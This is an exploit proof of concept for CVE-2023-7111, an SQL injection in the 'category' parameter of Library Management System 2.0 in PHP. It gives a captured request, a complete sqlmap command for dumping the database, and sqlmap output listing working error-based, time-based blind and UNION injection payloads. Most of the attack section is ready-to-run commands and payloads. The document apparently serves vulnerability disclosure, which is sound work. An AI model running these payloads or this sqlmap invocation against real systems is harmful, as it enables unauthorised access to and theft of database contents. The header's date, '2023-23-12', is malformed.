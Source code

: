 # CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Exploit Title:** CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7111
  
## References: 
+ **CVE-2023-7111:** https://vuldb.com/?id.249006
+ https://www.cve.org/CVERecord?id=CVE-2023-7111
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7111
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7111

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'category' in "/libsystem/index.php?category=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the application: "http://localhost/libsystem/index.php"
+ Select the Category from combobox.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /libsystem/index.php?category=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=9p3s52249uv1qh0sp602kn39ul
Referer: http://localhost/libsystem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p category --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: category (GET)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: category=-7874 OR 1 GROUP BY CONCAT(0x717a7a6b71,(SELECT (CASE WHEN (3499=3499) THEN 1 ELSE 0 END)),0x71716a7a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: category=(CASE WHEN (6694=6694) THEN SLEEP(5) ELSE 6694 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 8 columns
    Payload: category=-5673 UNION ALL SELECT 7143,7143,7143,CONCAT(0x717a7a6b71,0x58617168457a765948785a58544179556e546b714668456e76436d48635046707750794a64734b61,0x71716a7a71),7143,7143,7143,7143-- -
---
[12:46:50] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:46:50] [INFO] fetching current database
current database: 'libsystem'
```

+ current database: `libsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/2f9bc202-cb7c-4622-ac38-69252d03bfe5)
